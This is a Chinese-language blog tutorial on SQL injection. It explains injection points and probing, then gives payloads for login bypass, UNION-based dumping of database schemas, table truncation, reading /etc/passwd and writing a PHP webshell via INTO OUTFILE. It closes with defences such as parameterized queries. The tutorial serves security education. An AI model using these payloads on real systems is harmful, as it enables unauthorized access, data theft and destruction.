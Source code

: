 ```yaml
---
title:     "了解SQL注入"  # 文章标题
subtitle:    "了解SQL注入"  # 文章标题
description: ""
date:         2018-05-06T10:41:29+08:00  # 自动添加日期信息
author:   "WangZiTao"
image:   ""
tags:        ["SQL注入","MySQL"]
url:    "/2018-05-06-了解sql注入"
categories:  ["sql"]
showtoc: true   # 是否显示目录
---
```

## 1.简介

SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。一般来说，它是利用现有应用程序，将（恶意的）SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。


## 2.SQL注入的位置

SQL注入只有在SQL语句中插入了用户输入的字符串并没有做好相应的处理时才会发生，用户输入的来源可以是URL参数，POST数据，外部用户输入信息等。程序员在编写代码时往往需要在SQL中填入用户输入的参数，譬如根据用户ID查询用户信息，查询链接类似于/get_user_info.php?uid=123，具体到SQL代码可能是下面这样：

  ```sql
  SELECT * FROM User WHERE uid = 123
  ```

或者是根据用户名来查找用户，链接类似于/search_user.php?name=Zhangsan，具体到SQL代码类似于下面：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan'
  ```

上面例子中123和Zhangsan就是用户输入的参数，同时也是可能的注入点。常见的SQL注入位置有下面几种（当然程序员可以把用户参数写到任何地方，不仅仅是WHERE条件里，也可以是ORDER BY或GROUP BY子句，甚至是SQL语句本身）：

  ```sql
  SELECT * FROM table WHERE id = XXX
  SELECT * FROM table WHERE name = 'XXX'
  SELECT * FROM table WHERE name = 'XXX' AND pass = 'YYY'
  SELECT * FROM table WHERE name = "XXX"
  SELECT * FROM table WHERE id IN (XXX)
  SELECT * FROM table WHERE name like '%XXX%'
  ```
## 3.SQL注入方法
从上面列出的SQL语句可以看出，常见的查询参数有可能是数字类型，也可能是字符串类型。两种类型的参数有不同的注入检测方法，字符串类型的参数可以使用 ' '' " "" \ \\\ 进行试探，而数字类型时可以用AND 1、AND 0、AND true、AND false、1-false、1-true、2-1、1*100等方法进行试探。下面举例说明： 一般情况下，如果程序对用户输入的参数做了正确的处理，那么输入任何参数页面都不会报错。如下面两句SQL：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan''
  SELECT * FROM User WHERE name = 'Zhangsan'''
  ```
这两个SQL第二个是合法的，只要引号成对出现都没问题。如果用户分别输入Zhangsan'和Zhangsan''页面都能正常返回，则表明不存在注入问题，如果第一个输入页面异常，而第二个输入正常则表明该参数很可能是一个可以利用的注入点。 数字类型的参数看下面这个例子，如果用户输入123 AND 1和123 AND 0页面返回正常，并且结果一样，则说明程序对参数作了处理，而如果输入123 AND 1返回正常，输入123 AND 0返回空页面，则说明存在注入的可能。

  ```sql
  SELECT * FROM User WHERE uid = 123 AND 1
  SELECT * FROM User WHERE uid = 123 AND 0
  ```
##　4.注入能做什么
如果SQL注入只是简单的让页面出错或者返回空页面的话，那么SQL注入也就不会这么吸引人了。SQL注入的强大之处在于可以在服务器上做几乎任何事，听起来似乎是危言耸听，但事实确实如此，要不然SQL注入怎么会和DOS攻击一起成为最流行的网络攻击方法呢。下面我们就来看下通过一个简单的URL参数，可以做多么不可思议的事。

### 4.1 绕开验证
在用户登陆时，往往要根据用户输入的用户名和密码到数据库中进行查询比较，如果用户名和密码匹配则认为登陆成功。相应的SQL语句如下：

  ```sql
  SELECT * FROM Customer WHERE name = 'XX' AND pass = 'YY'
  ```

如果没有对用户输入的参数进行检查，则当输入用户名为admin，密码为' OR '' = ' 时，执行下面的SQL语句：

  ```sql
  SELECT * FROM Customer WHERE name = 'admin' AND pass = '' OR '' = ''
  ```

这个SQL语句中的'' = ''将这个WHERE条件变成了恒等于TRUE，所以会返回所有记录。如果程序通过判断返回的记录数是否大于0来判断验证是否通过的话，这样我们就绕过了程序的验证。

### 4.2 暴库
根据上面的例子可以看到原本是想查询用户名为admin的用户记录，SQL注入后返回的却是数据库中的所有记录。通过这种方式连接其他的表，利用一点点的手段，就几乎可以获取所有数据库、所有表、所有字段的信息，并可以根据这些信息进一步查询数据库中的任意数据。这就是所谓的暴库。譬如还是上面的SQL例子，通过下面的SQL可以获取MySQL版本：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan' AND MID(VERSION(),1,1) = '5'
  ```

通过下面的SQL可以爆出所有表：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_TYPE = 'BASE TABLE'-- -'

  ```

这种方法称为Union法。要让这个SQL能够正确执行，User表的字段必须和后面UNION SELECT的字段个数一致，如果字段个数不一致SQL执行会报错。所以要让这种方法生效首先得确定User表字段个数，一般通过ORDER BY试探法，如下所示，通过递增ORDER BY的数值直到页面出错来确定字段个数。

```sql
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 1 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 2 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 3 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 4 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 5 -- -'  -- 页面出错，可推测User表字段数为4
  ```
确定好User表的字段个数后，后面的UNION SELECT语句也需要做相应的调整，可以用数字1来填充，如下：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan' UNION SELECT TABLE_SCHEMA, TABLE_NAME, 1, 1 FROM information_schema.TABLES WHERE TABLE_TYPE = 'BASE TABLE'-- -'
  ```
### 4.3 增删改查，任意数据库操作
一旦知道了所有的数据库信息，则可以修改注入语句任意操作数据库。如下的例子将Product表清空：

  ```sql
  SELECT * FROM User WHERE uid = 123; TRUNCATE TABLE Product
  ```

### 4.4 读写文件
MySQL提供了两个方法可以从本地读取和写入文件，如下：

  ```sql
  SELECT LOAD_FILE('/etc/passwd');
  SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';
  ```
上面两个例子展现了SQL注入的强大威力，如果MySQL用户拥有读写文件的权限，那么SQL注入将对站点带来巨大的威胁。第一个例子可以爆出linux服务器上的账号密码文件，第二个例子是向网站根目录写一个webshell，通过这个webshell用户就可以执行linux的系统命令了。譬如：http://www.example.com/shell.php?c=ls，通过webshell攻击者可以进一步做更多的事情了，最后直到控制整个服务器。

## 5.防范SQL注入

针对SQL注入的特点，总结以下几点基本的防范原则：

1. **永远不要相信用户输入，对用户输入进行校验**
2. **永远不要自己拼接SQL**
3. **永远不要用管理员权限的数据库连接**
4. **永远不要明文保存机密信息**
5. **尽量不要显示程序的异常信息，保存到表或日志文件中**
6. **使用WAF（绕过WAF又是另一个话题了）**

从编程的角度来看可以做如下的事情：

1. **用户输入验证：类型转换、正则表达式、特殊符号过滤（引号，分号，注释符号等）**
2. **使用参数化存储过程**
3. **使用参数化SQL语句**
4. **采用ORM框架**

其中将拼接的SQL语句改为使用参数化的SQL语句是最常用的防范方法，另外，参数化的SQL不仅比拼接的更安全，而且性能要更高。 SQL语句的执行过程分几个步骤：语法检查、分析、执行、返回结果。当一条SQL通过语法检查后，会在共享池里寻找是否有跟其相同的语句，如果有则用已有的执行计划执行语句，如果没有找到，则生成执行计划，然后才执行语句。 自己拼接的SQL语句会随着变量的不同而不同，如下面的两句SQL，执行每个SQL的时候都会生成一次执行计划，而这些执行计划其实都是一样的。

  ```sql  
  SELECT * FROM Customer WHERE uid = 1
  SELECT * FROM Customer WHERE uid = 2
  ```
当这种SQL语句被大量调用时，会导致共享池中的SQL语句增多，而重用性极低，导致共享池内命中率下降。维护共享池内部结构消耗了大量的CPU和内存资源，而并没有充分利用执行计划的缓存优势，这样会带来性能问题。采用参数绑定的方式，可以解决这个问题：

  ```
  $uid = 1;
  $pdo = new PDO(...);
  $sql = "SELECT * FROM Customer WHERE uid = :ID";
  $stmt = $pdo->prepare($sql);
  $stmt->bindValue(":ID", $uid, PDO::PARAM_INT);
  $result = $stmt->execute();
  ```
## 6.参考
[sql_injection](https://websec.ca/kb/sql_injection)

